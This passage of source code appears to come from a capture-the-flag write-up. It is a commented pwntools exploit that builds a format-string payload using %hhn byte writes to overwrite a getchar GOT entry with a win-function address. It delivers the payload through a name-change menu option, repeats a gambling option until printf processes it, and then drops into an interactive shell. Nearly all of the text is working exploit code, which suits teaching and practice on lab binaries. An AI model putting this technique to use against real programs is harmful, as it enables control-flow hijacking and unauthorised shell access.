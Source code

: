 ``` 
# We then create a helper function which given a byte we want to write and the number
# of bytes we have already written, returns how many bytes we want to write next.
def getBytes(byte, current):
  # If we have already written more bytes than the next value we want to insert,
  # we need to utilise the overflow to get the correct value.
  if byte < current:
    byte = 256 - current + byte
  # Otherwise we just determine the offset required to reach our desired value.
  else:
    byte = byte - current
  return byte

# We then call this helper function for all four byte segments, and convert it into
# a string surrounded by the %x format.
win1amount = "%" + str(getBytes(win1, 16)) + "x"
win2amount = "%" + str(getBytes(win2, win1)) + "x"
win3amount = "%" + str(getBytes(win3, win2)) + "x"
win4amount = "%" + str(getBytes(win4, win3)) + "x"

# Now we simply need to construct our payload, which consists of the four addresses
# we want to write our byte values to, followed by our %x calls constructed earlier
# (note we have to use .encode() to ensure it is of type byte not string).
format_str = (
  p32(getcharGOT) + p32(getcharGOT + 1) + p32(getcharGOT + 2) + p32(getcharGOT + 3) +
  win1amount.encode() + b"%5$hhn" +
  win2amount.encode() + b"%6$hhn" +
  win3amount.encode() + b"%7$hhn" +
  win4amount.encode() + b"%8$hhn"
)

# To input this payload, we then call option c to change our name.
p.sendline("c")
p.sendline(format_str)

# Once our name is updated with the format string payload, we need to successfuly
# gamble again so printf is called on it.
while True:
  p.sendline("g")
  p.sendline("0.001")
  p.sendline("1")

  p.recvuntil("5)")
  p.recvlines(2)
  gamble = p.recvline()

  p.sendline("")

  if gamble[:5] != b"Wrong":
    break

# We should now jump to the win function and have shell access.
p.interactive()
```
